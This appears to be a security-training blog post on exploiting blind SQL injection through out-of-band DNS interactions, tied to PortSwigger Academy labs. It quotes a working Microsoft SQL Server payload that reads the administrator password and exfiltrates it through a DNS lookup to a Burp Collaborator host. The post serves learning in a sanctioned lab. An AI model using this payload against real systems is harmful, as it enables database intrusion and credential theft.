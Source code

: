 ```yaml
---
title: 5. Out-of-band Application Security Techniques
date: 2023-12-23
categories: [PortSwigger, SQL injection]
tags: [portswigger, sqli, sql, burp, out-of-band, oast-sqli, burp-collaborator]
img_path: /assets/portswigger/sqli/oast_sqli
published: true
image:
    path: ../../portswigger_acad_logo.png
---
```


## Exploiting blind SQLi using Out-of-band Application Security Techniques (OAST)

An app might carry out a SLQ query asynchronously. The app continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. They query is still vulnerable to SQLi, but none of the techniques described so far will work. The app's response does not depend on the [query returning any data](https://cspanias.github.io/posts/PS-SQLi-3.-Blind-SQLi/), [error messages](https://cspanias.github.io/posts/PS-SQLi-4.-Error-based-SQLi/), or on the [time taken to execute the query](https://cspanias.github.io/posts/PS-SQLi-5.-Time-delayed-SQLi/).

In this situation, it is often possible to exploit the blind SQLi vulnerability by triggering out-of-band network interactions to a system that we control. These can be triggered based on an injected condition to infer info one piece at a time. More usefull, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effecting is DNS. Most productions networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

We can use Burp Collaborator for OAST techniques. This is a server that provides custom implementations of various network services, including DNS. It allows us to detect when network interactions occur as a result of sending invidual payloads to a vulnerable app. Burp Suite Pro includes a built-in client that's configured to work with Burp Collaborator right out of the box.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

![](dns_lookup_payload.png){: .normal}

This cause the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`. We can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

### Lab: Blind SQL injection with out-of-band interaction

> **Objective**: _This lab contains a blind SQLi. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. To solve the lab, exploit the SQLi vulnerability to cause a DNS lookup to Burp Collaborator._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Exploiting blind SQLi using OAST techniques

Having confirmed a way to trigger OAST interactions, you can then out-of-band channel to exfiltrate data from the vulnerable app. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the `password` for the `Adminstrator` users, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`. OAST are a powerful way to detect and exploit blind SQLi, due to the high chance of success and the ability to directly exfiltrate data with the out-of-band channel. For this reason, OAST are often preferable even in situations where other techniques for blind exploitation work.

### Lab: Blind SQL injection with out-of-band data exfiltration

> **Objective**: _This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQLi vulnerability to find out the password of the `administrator` user. To solve the lab, log in as the `administrator` user._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Resources

- [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection).
- [SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- Rhana's [video walkthrough](https://www.youtube.com/watch?v=KOaDan0UqFs).